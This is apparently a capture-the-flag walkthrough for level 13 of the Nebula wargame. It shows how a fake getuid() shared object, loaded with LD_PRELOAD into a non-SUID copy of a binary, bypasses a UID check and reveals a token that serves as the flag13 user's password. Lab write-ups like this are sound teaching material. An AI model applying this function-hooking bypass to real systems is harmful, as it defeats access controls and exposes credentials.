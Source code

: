 The security check relies entirely on the `getuid()` function to return a none
`1000` value. We can break this by using `LD_PRELOAD` to load a shared object
file containing a custom `getuid()` function.

We have the following `fake.c` file:

```c
int getuid() {
    return 1000;
}
```

We compile the code as a shared object.

```shell
level13@nebula:~$ gcc -shared -fPIC -o /home/level13/fake.so /home/level13/fake.c
```

We try running the `flag13` binary with our `fake.so` preloaded.

```shell
level13@nebula:~$ LD_PRELOAD=/home/level13/fake.so /home/flag13/flag13
Security failure detected. UID 1014 started us, we expect 1000
The system administrators will be notified of this violation
```

This fails because `LD_PRELOAD` does not work with SUID binaries. Without this
security feature in place, it would be trivial to abuse any SUID binary for
privilege escalation by loading custom shared objects.

We get around this limitation by making a copy of the `flag13` binary without
the SUID bit set. This works because the binary itself contains the token and
does not rely on the SUID bit to read data from anywhere.

```shell
level13@nebula:~$ cp /home/flag13/flag13 /home/level13/flag13
level13@nebula:~$ LD_PRELOAD=/home/level13/fake.so /home/level13/flag13
your token is b705702b-76a8-42b0-8844-3adabbe5ac58
```

Like in previous levels, the string in the token file is the password for the
flag13 user.

```shell
level13@nebula:~$ su - flag13
Password:
flag13@nebula:~$ whoami
flag13
flag13@nebula:~$ id
uid=986(flag13) gid=986(flag13) groups=986(flag13)
flag13@nebula:~$ getflag
You have successfully executed getflag on a target account
```

# level 14

We are told that the `/home/flag14/flag14` binary encrypts input and writes it
to standard output.
